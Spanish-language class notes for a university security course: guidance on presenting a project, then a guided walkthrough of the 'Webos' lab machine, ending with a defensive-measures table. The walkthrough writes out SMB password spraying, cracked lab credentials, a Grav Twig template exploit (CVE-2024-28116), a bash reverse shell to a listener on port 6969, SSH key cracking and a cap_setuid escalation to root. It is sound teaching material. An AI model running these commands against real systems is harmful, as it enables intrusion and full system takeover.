

---
tags:
- Máquinas y prácticas
date: '2026-10-06'
---

# Practica 1 Webos Castillo Gomez

2026-10-06

# Esquema editable 1 · Práctica 1

Carlos Gómez explicó cómo presentar el trabajo; Carlos Castillo abrió la sesión y reforzó la idea de mostrar decisiones y funcionamiento. Este esquema organiza lo dicho en clase, no sustituye el enunciado oficial de la práctica.

| **Bloque** | **Qué preparar** | **Para qué sirve** |
| --- | --- | --- |
| 1. Producto | Nombre, problema elegido, qué hace y a quién sirve. | Dar contexto desde el primer minuto. |
| 2. Decisiones | Por qué se eligió esa idea; evolución desde la propuesta inicial; cambios y motivos. | Hacer visible el razonamiento del equipo. |
| 3. Construcción | Arquitectura general, reparto de tareas, herramientas, dificultades y soluciones. | Explicar el proceso sin recorrer cada línea de código. |
| 4. Demostración | Flujo real del producto y funciones que sí están listas. | Mostrar resultados comprobables. |
| 5. Código relevante | Seleccionar fragmentos que expliquen una decisión o mecanismo importante. | Conectar implementación y función. |
| 6. Futuro y preguntas | Limitaciones, evolución prevista y respuestas de cada integrante. | Cerrar con criterio y defender el trabajo. |

Tiempo anunciado: mínimo de 30 minutos por grupo, seguido de preguntas. Puede exponer una persona o varias; Gómez recomendó repartir intervenciones para que se vea la contribución de cada integrante. La inscripción final anunciada fue para martes y jueves de la semana siguiente (13 y 15 de octubre de 2026); horarios y cupos deben comprobarse en el formulario del campus.

# Esquema editable 2 · Laboratorio Webos

Ruta observada de la máquina: las flechas representan relaciones causales y hallazgos de esta sesión, no pasos ejecutados automáticamente.

| **Fase** | **Evidencia de la clase** | **Decisión / resultado** |
| --- | --- | --- |
| Reconocimiento | Kali 192.168.0.150 → Webos 192.168.0.50. Puertos 22, 80, 139 y 445. | Distinguir servicios Linux y SMB/Samba; asociar webos.thl en /etc/hosts. |
| Web / Grav | robots.txt, rutas de usuario y configuración; Grav 1.7.44; panel /admin. | Exposición de archivos de cuentas y versión; no basta para iniciar sesión. |
| SMB / Samba | Recurso webos; credenciales webos:geraldine; lectura de MamaÑema.txt. | Brainfuck aporta admin:Perico69\*\*\*\*\*; validar con hash bcrypt y acceso al panel. |
| Panel / plantilla | Grav 1.7.44 encaja en rango afectado por CVE-2024-28116; editor Twig. | El primer script de Graver dio URL malformada; la edición manual de plantilla produjo ejecución como www-data. |
| Conexión | ICMP al Kali y listener en 6969; shell inversa. | Confirmada conexión como www-data; Python 3 dio PTY. |
| Usuario / privilegios | Clave SSH cifrada en /opt; John obtuvo frase freestyle; SSH como webos. | Python de /home/webos tiene cap\_setuid=ep; os.setuid(0) dio root. |

Cadena de confianza: cada credencial, capacidad y resultado se documenta por separado. El acceso como admin de Grav no significó acceso SSH; la shell web como www-data no significó privilegios root.

# 1. Lectura de la sesión y atribución

Clase del 6 de octubre de 2026. La transcripción facilitada contiene 3.626 intervenciones con marcas de tiempo, desde 16:12 hasta 03:08:16 del reproductor. La sesión combina preparación de la Práctica 1 y resolución guiada de Webos, máquina de The Hackers Labs.

| **Interviniente** | **Participación atribuida** |
| --- | --- |
| Carlos Castillo | Presentó la clase; condujo el laboratorio Webos, preguntas del alumnado, demostraciones de red, Grav, Samba, shell y privilegios; cerró con avisos de próximas clases. |
| Carlos Gómez | Intervino como invitado aproximadamente entre 25:08 y 36:17 para explicar la exposición de la Práctica 1, su organización, el sentido pedagógico y la evaluación anunciada. |
| Alumnado | Planteó dudas sobre fechas, duración, reparto de voces, acceso a la máquina, comandos y errores; algunas pruebas fueron en sus equipos y no constituyen una ejecución verificada en la máquina del profesor. |

Alcance de fuentes: se ha revisado la transcripción completa y se han cotejado fotogramas representativos del vídeo para comandos, salidas e interfaces. Una captura puntual respalda lo que muestra, pero no equivale a una revisión visual continua de las tres horas. Las notas distinguen «visto en clase», «corrección técnica» y «pendiente de comprobar».

# 2. Carlos Gómez · Presentación de la Práctica 1

## Objetivo de la exposición

Cada grupo debe explicar y enseñar el producto que ha construido. La exposición mínima anunciada es de 30 minutos. Gómez insistió en que el interés está en contar el proceso: por qué eligieron la idea, cómo cambió, cómo resolvieron los problemas y qué harían después. La demostración debe dejar ver funcionalidades reales. El código se usa como evidencia selectiva: fragmentos importantes y su relación con el producto, sin leer cada variable.

Después habrá preguntas de los profesores y de la clase. Gómez pidió una presentación comprensible, ensayada y con cámara durante la exposición. Situó la práctica de hablar en público como competencia útil en entrevistas, reuniones con clientes y trabajo en equipo.

## Trabajo en equipo y reparto de la voz

Se permite un portavoz o varios. Gómez recomendó que todos expliquen su parte; puso como ejemplo un equipo de tres con unos diez minutos por persona. La calificación puede reflejar diferencias de contribución o presentación. Una ausencia justificada requiere explicar con claridad qué aportó la persona ausente. En clase no se fijó una sanción automática por faltar, ni una obligación universal de que todos hablen exactamente el mismo tiempo.

## Fechas y calificación: lo anunciado, con sus límites

El calendario cambió durante la conversación: se descartó el lunes 12 por festivo y la decisión verbal final fue martes y jueves de la semana siguiente, que corresponden al 13 y 15 de octubre. Álvaro habilitará un formulario de inscripción en el campus; Castillo indicó al final que estaba habilitado. La cifra de grupos por día varió de cuatro a cinco en la conversación, por lo que conviene comprobar cupos y turnos en el formulario real.

La exposición es voluntaria. Gómez dijo que un trabajo presentado puede partir de una referencia de 7 y subir hasta 10 según su calidad; no prometió un 10 automático. Quien no exponga también puede optar a 10, aunque la corrección podría demorarse una o dos semanas. Los chistes sobre descuentos de puntos o Bizum no son criterios de evaluación. Se corrige la versión entregada de esta práctica; mejoras posteriores se trabajan en la Práctica 3. El enunciado y la rúbrica exacta no aparecen en las fuentes de esta sesión.

## Guion sugerido para estudiar, derivado de la explicación

1. Presentar el problema, el público y la función principal del producto.
2. Reconstruir las decisiones: idea inicial, cambios y argumentos.
3. Explicar arquitectura y reparto del trabajo con dos o tres fragmentos de código significativos.
4. Ejecutar una demostración preparada y mencionar fallos o límites conocidos.
5. Cerrar con posibles mejoras y ensayar respuestas a preguntas técnicas.

# 3. Carlos Castillo · Contexto y preparación del laboratorio

Castillo comenzó recordando la arquitectura del trabajo sin exigir un recorrido exhaustivo por el código. Más adelante retomó el laboratorio: una máquina Linux Debian llamada Webos, accesible desde Kali en la misma red. La sesión anterior de WordPress aparece solo como repaso oral; aquí el servicio web nuevo es Grav CMS, y el nombre de la máquina juega con web, huevos y Samba.

En un examen o entorno distinto, Castillo recordó que la VPN o el segmento asignado condicionan el descubrimiento, y que podría existir un pivote si una red no es directamente alcanzable. En esta clase no se configuró un túnel. Primero se verificó la conectividad real de las dos máquinas.

| **Equipo** | **Dato visto** | **Significado** |
| --- | --- | --- |
| Kali | 192.168.0.150, interfaz eth0 | Máquina de trabajo y listener. |
| Webos | 192.168.0.50, interfaz enp0s3 | Objetivo del laboratorio local. |
| Dominio local | webos.thl → 192.168.0.50 | Resolución configurada manualmente en /etc/hosts. |

Un primer escaneo apuntó por error a la IP .150 del propio Kali; Castillo lo corrigió a .50. Esta diferencia explica resultados aparentemente contradictorios al principio. El TTL 64 sugirió Linux, pero no lo prueba por sí mismo. El resultado de Nmap y el contexto del servicio sostienen que Webos es Linux. Samba implementa SMB en sistemas Unix; encontrar 139/445 no demuestra que el sistema sea Windows.

ifconfig

sudo netdiscover -r 192.168.0.0/24

ping 192.168.0.50

sudo nmap -p- --min-rate 5000 192.168.0.50

sudo nmap -p22,80,139,445 -sCV 192.168.0.50

Salida esencial: 22/SSH OpenSSH 9.2p1 Debian, 80/HTTP Apache 2.4.59 Debian, 139 y 445/SMB Samba 4.17.12-Debian. Las versiones son las observadas durante la clase; un nuevo despliegue podría ser diferente.

# 4. Enumeración web: de HTTP a Grav

WhatWeb y la navegación identificaron Apache y Grav. Grav es un CMS PHP de archivos planos: contenido en Markdown, configuración YAML y plantillas Twig. La página inicial y robots.txt dieron pistas. robots.txt enumera rutas para rastreadores; no es un mecanismo de autorización.

whatweb http://192.168.0.50

sudo nano /etc/hosts

192.168.0.50 webos.thl

dirsearch -u http://192.168.0.50/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt

robots.txt anunciaba, entre otras, /.github/, /.phan/, /assets/, /backup/, /bin/, /cache/, /logs/, /system/, /tests/, /tmp/, /user/, /vendor/ y /webserver-configs/. La ruta /.github/ no implica que exista un repositorio .git público. Dirsearch sirvió para priorizar rutas; su mera aparición no certifica lectura ni escritura.

La mala configuración más útil fue el acceso HTTP a archivos bajo /user/. El listado de /user/accounts/ dejó ver admin.yaml; la configuración de versiones mostró Grav 1.7.44. admin.yaml revelaba el identificador admin, correo y nombre público, permisos y un hash bcrypt con prefijo $2y$10$. El valor del hash no es una contraseña en claro. También se vio que el segundo factor estaba desactivado. Las páginas /login y /admin existían, pero admin/admin no funcionó y la recuperación de contraseña no aportó acceso.

sudo apt install html2text

curl -s http://webos.thl/user/accounts/ | html2text

El intento de apoyarse en Claude Code para leer la documentación quedó limitado por la cuota, sin análisis aprovechable. En la conversación surgió la idea de subir un archivo PHP con una extensión alternativa; no se verificó tal carga ni ejecución. La exposición de archivos debe documentarse por la ruta y respuesta observadas, sin presumir que todo archivo PHP o registro sea legible como código fuente.

# 5. Samba: enumeración, credenciales y recurso webos

NetExec y smbclient permitieron listar recursos. Una prueba con nombres arbitrarios pareció devolver Guest: eso es acceso invitado, no autenticación de la cuenta probada. Se vieron print$, webos e IPC$; también apareció nobody como nombre de directorio o cuenta del sistema en una salida, que no demuestra una contraseña SMB válida. La firma SMB desactivada y SMBv1 activo fueron datos de configuración, no vulnerabilidades explotadas en la sesión.

netexec smb 192.168.0.50 -u guest -p ''

netexec smb 192.168.0.50 -u guest -p '' --shares

smbclient -N -L //192.168.0.50/

Castillo probó contraseñas de rockyou.txt para el usuario webos con NetExec. El comando incluyó --ignore-pw-decoding: esta opción evita fallos al decodificar entradas de la lista; no descifra contraseñas. Apareció webos:geraldine y el acceso READ a print$ y webos. Estas credenciales no dieron acceso web ni SSH cuando se probaron allí.

netexec smb 192.168.0.50 -u webos -p /usr/share/wordlists/rockyou.txt --ignore-pw-decoding

netexec smb 192.168.0.50 -u 'webos' -p 'geraldine' --shares

smbmap -H 192.168.0.50 -u 'webos' -p 'geraldine' -r 'webos' --no-banner

smbmap -H 192.168.0.50 -u 'webos' -p 'geraldine' -r 'webos' --download 'webos/MamaÑema.txt' --no-banner

La clase confundió momentáneamente la opción de NetExec para shares con la recursión de SMBMap; luego se usó smbmap -r para explorar el recurso. La sintaxis de filtrado de NetExec depende de la versión: en el vídeo se intentó --shares --filter-shares READ WRITE, mientras la documentación actual muestra --shares READ,WRITE. Conviene consultar netexec --help de la instalación concreta.

MamaÑema.txt contenía un programa Brainfuck. dCode ayudó a identificar e interpretar el lenguaje y se obtuvo el literal admin:Perico69\*\*\*\*\*. Brainfuck es un lenguaje esotérico, no un cifrado; por ello aquí se interpreta código. La cadena se probó frente al hash bcrypt expuesto usando John con una lista de una sola candidata, y luego en el panel de Grav. La coincidencia de John y el acceso al panel confirmaron la contraseña para admin de Grav. El acceso SSH con admin falló.

cat /home/kali/192.168.0.50-webos\_MamaÑema.txt

john --wordlist=./passencontrada.txt hash\_admin\_encontrado

# 6. Panel de Grav, versión y ejecución de plantilla

Ya autenticado, Castillo revisó páginas, temas, plugins, configuración y PHPinfo. En la interfaz PHP aparecía 8.2.20 y el proceso web trabajaba como www-data. Se probó crear una cuenta de ensayo; el comentario sobre nombres con espacios evidenció una validación débil, pero no se mostró que la cuenta quedara invisible ni que otorgara privilegios por sí sola.

Un webshell PHP copiado como contenido de una página Markdown no se ejecutó: Grav procesó el contenido como página. Esta prueba no demuestra una imposibilidad general de ejecutar PHP mediante otros mecanismos. Las búsquedas con searchsploit y la consulta de un repositorio público llevaron a CVE-2024-28116, una elusión del sandbox de Twig para usuarios autenticados en Grav anteriores a 1.7.45. La versión 1.7.44 vista en Webos entra en ese rango. La presencia de la versión es una condición; el efecto se confirmó al modificar una plantilla.

searchsploit grav cms

wget https://raw.githubusercontent.com/akabe1/Graver/refs/heads/main/graver.py

python3 graver.py -t http://webos.thl/

El primer uso del script Graver produjo una URL malformada, con «/:80» tras la barra final, y su mensaje de inyección no bastó como prueba de shell. Castillo terminó editando directamente una plantilla Twig desde el panel. La plantilla mostrada definía una función system en safe\_functions y un parámetro de consulta do, con whoami como valor por defecto. Es una precisión relevante: el código visto no era un simple whoami fijo, aunque una explicación oral lo resumiera así. La ejecución de whoami y después ls /home se vio en el navegador, bajo www-data.

La guía técnica del repositorio Graver describe el vector; la confirmación de esta clase descansa en la respuesta del navegador y la sesión posterior, no en la salida optimista del primer script.

# 7. Conectividad, shell y usuario webos

Antes de establecer la shell, se comprobó conectividad ICMP desde la máquina objetivo hacia Kali con ping y tcpdump. Esa prueba valida el trayecto ICMP, no asegura por sí sola que cualquier conexión TCP funcione. Se usó revshells.com para preparar una shell inversa Bash hacia el listener de Kali en el puerto 6969. En el aula hubo errores de comillas e IP en pruebas de alumnos; uno se resolvió al corregir la dirección. No se atribuyen esas pruebas al equipo del profesor.

ping -c 1 192.168.0.150

sudo tcpdump -ni eth0 icmp

sudo nc -lvnp 6969

bash -c "/bin/bash -i >& /dev/tcp/192.168.0.150/6969 0>&1"

El listener recibió una conexión y los comandos mostraron www-data en /var/www/html. Un intento de PTY con python falló porque no estaba ese ejecutable; python3 sí funcionó. En la máquina objetivo no estaba ifconfig, por lo que se consultó ip a. Esto mejora la interacción de la shell, pero no equivale a una estabilización completa del terminal.

python3 -c 'import pty; pty.spawn("/bin/bash")'

ip a

En la enumeración local se discutieron directorios como /tmp, /opt, /mnt y /var/mail y herramientas como LinPEAS, pero no se mostró una ejecución completa de LinPEAS. En /opt apareció id\_rsa, una clave privada OpenSSH cifrada. Para usar la copia local, los permisos correctos son restrictivos (chmod 600); un chmod 777, mencionado oralmente, la haría insegura y OpenSSH podría rechazarla. La clave pedía una frase de paso, distinta de la contraseña de la cuenta.

chmod 600 id\_rsawebos

ssh2john id\_rsawebos > hashwebos

john --wordlist=/usr/share/wordlists/rockyou.txt hashwebos

ssh -i id\_rsawebos webos@192.168.0.50

John recuperó freestyle como frase de paso y se consiguió sesión SSH de webos. El primer intento que pedía contraseña de debian no validaba la clave de webos; la sesión posterior sí mostró el usuario correcto. En el home se vieron python3, user.txt y webito, sin lectura verificada del contenido de flags.

# 8. Capacidad Linux y privilegios de root

Al final Castillo aplicó una técnica de GTFOBins a un ejecutable Python concreto en /home/webos/python3. getcap mostró cap\_setuid=ep en ese archivo y cap\_net\_raw=ep en ping. CAP\_SETUID permite cambiar el UID efectivo cuando el proceso posee la capacidad. No es un permiso sudo ni una característica universal de todos los binarios Python. La ejecución de os.setuid(0) seguida de /bin/sh y whoami devolvió root en el vídeo. Aunque se habló de dejar la escalada como práctica, esa demostración final sí se realizó.

/usr/sbin/getcap -r /

/home/webos/python3 -c 'import os; os.setuid(0); os.execl("/bin/sh", "sh")'

whoami

El cierre de la máquina quedó en el acceso root observado. No se documentó una recolección completa de flags ni una revisión sistemática de persistencia. Para el informe de un laboratorio conviene distinguir cada identidad alcanzada: admin de Grav, www-data, webos y root.

# 9. Interpretación y medidas defensivas

| **Hallazgo de Webos** | **Explicación / medida** |
| --- | --- |
| Directorios de Grav expuestos | Los archivos de cuentas y configuración no deberían servirse por HTTP; revisar la configuración de Apache y comprobar acceso directo con 403/404, no solo quitar listados. |
| Contraseñas reutilizadas o débiles | El recurso SMB y el panel dieron pasos distintos. Revisar contraseñas, rotar secretos expuestos y limitar intentos de acceso. |
| SMBv1 y firma | La clase los detectó, sin explotación. En un sistema real, deshabilitar SMBv1 y evaluar firma según clientes y política de red. |
| Grav 1.7.44 y Twig | Actualizar a una versión mantenida que incluya la corrección de CVE-2024-28116; restringir cuentas con edición de plantillas. |
| Clave privada en /opt | Retirar la clave expuesta, revisar sus permisos, rotarla y comprobar si otros hosts la aceptan. |
| Python con cap\_setuid | Eliminar esa capacidad si no es necesaria; auditar capacidades de binarios con getcap y validar el efecto. |

Estas medidas son una ampliación defensiva basada en los hallazgos observados; no consta que se aplicaran durante la clase.

# 10. Enlaces y herramientas de la sesión

Los enlaces marcados «visto» aparecen en el vídeo o se derivan de un URL visible. Los marcados «verificación» se consultaron para contrastar una afirmación técnica; no se atribuyen a los profesores.

**Visto · exploit Graver en GitHub:** <https://github.com/akabe1/Graver>

**Visto · archivo graver.py utilizado con wget:** <https://raw.githubusercontent.com/akabe1/Graver/refs/heads/main/graver.py>

**Visto · webshell PHP de joswr1ght, ensayo sin ejecución:** <https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985>

**Visto · intérprete de Brainfuck en dCode:** <https://www.dcode.fr/brainfuck-language>

**Visto · generador de shells inversas:** <https://www.revshells.com/>

**Visto · GTFOBins, Python y capabilities:** <https://gtfobins.github.io/gtfobins/python/>

**Verificación · aviso de seguridad de Grav:** <https://github.com/advisories/GHSA-c9gp-64c4-2rrh>

**Verificación · qué es Grav:** <https://learn.getgrav.org/17/basics/what-is-grav>

**Verificación · Samba y SMB:** <https://www.samba.org/samba/what_is_samba.html>

**Verificación · NetExec shares:** <https://www.netexec.wiki/smb-protocol/enumeration/enumerate-shares-and-access>

**Verificación · SMBMap:** <https://github.com/ShawnDEvans/smbmap>

**Verificación · capacidades Linux:** <https://man7.org/linux/man-pages/man7/capabilities.7.html>

La URL exacta de descarga de Webos desde The Hackers Labs no quedó legible en los fotogramas cotejados; por eso no se presenta un enlace reconstruido como si fuera el usado en clase.

# 11. Ideas importantes de la transcripción

| **Tema** | **Idea comprobada** | **Referencia del reproductor** |
| --- | --- | --- |
| Práctica 1 | Gómez explica contenido, duración mínima, participación, preguntas y valor de hablar en público. | 25:08–36:17 |
| Calendario | Tras cambios por el festivo, se anuncian martes y jueves de la semana siguiente. | 29:00–35:30; cierre 03:07 |
| Reconocimiento | Se corrige la IP objetivo y se detectan SSH, Apache y Samba. | 45:12–57:12 |
| Grav | Rutas expuestas, admin.yaml y versión 1.7.44. | 01:07:38–01:24:28 |
| Samba | webos:geraldine, lectura de MamaÑema.txt e interpretación Brainfuck. | 01:30:34–02:00:18 |
| Panel y Twig | John valida admin; se prueba webshell Markdown sin ejecución; Twig sí permite comandos. | 02:19:48–02:37:20 |
| Shell | ICMP, listener y shell como www-data; Python 3 mejora PTY. | 02:44:06–02:46:52 |
| Usuario y root | Clave SSH, frase freestyle y Python con cap\_setuid; whoami confirma root. | 02:57:59–03:04:08 |

# 12. Actualización de memoria del proyecto

Registro de esta sesión para el vault. No altera la memoria global del asistente ni atribuye datos de otras clases a la del 6 de octubre.

| **Categoría** | **Dato nuevo** | **Certeza / acción** |
| --- | --- | --- |
| Personas | Carlos Castillo: laboratorio; Carlos Gómez: charla de Práctica 1. | Alta, transcripción y vídeo muestreado. |
| Evaluación | Exposición voluntaria de al menos 30 minutos; inscripción anunciada para 13 y 15 de octubre. | Alta para lo dicho; confirmar formulario y rúbrica. |
| Máquina | Webos: Debian, Grav 1.7.44, Samba; secuencia hasta root demostrada. | Alta en capturas representativas y transcripción. |
| Identidad visual | Portada caricaturiza a Chema y Xarxas según Magic, a Kristina según ficha aportada y a otra alumna de la portada de grupo sin nombre asignado. | Referencias ilustradas; las cámaras pequeñas solo orientan y no prueban identidad o asistencia. |
| Pendientes | No consta enlace exacto de descarga de Webos, lectura de flags ni enunciado íntegro de Práctica 1. | No inventar; pedir fuente solo si se requiere exactitud adicional. |
